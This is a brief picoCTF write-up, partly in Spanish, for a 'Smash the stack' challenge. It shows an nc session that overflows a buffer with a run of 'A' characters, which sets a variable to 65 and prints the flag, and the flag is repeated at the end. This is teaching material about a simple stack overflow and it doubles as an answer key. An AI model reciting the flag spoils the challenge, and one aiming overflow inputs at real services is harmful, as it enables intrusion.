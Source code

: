 ## Objetivo
Smash the stack

Additional details will be available after launching your challenge instance.

## Hints


## Solución

```
th0rtilla-picoctf@webshell:~$ 
th0rtilla-picoctf@webshell:~$ nc saturn.picoctf.net 63973
Enter a string: AAAAAAAAAAAAAAAAAAAAAAAAA

num is 65
You win!
picoCTF{l0c4l5_1n_5c0p3_ee58441a}


```
## Bandera
picoCTF{l0c4l5_1n_5c0p3_ee58441a}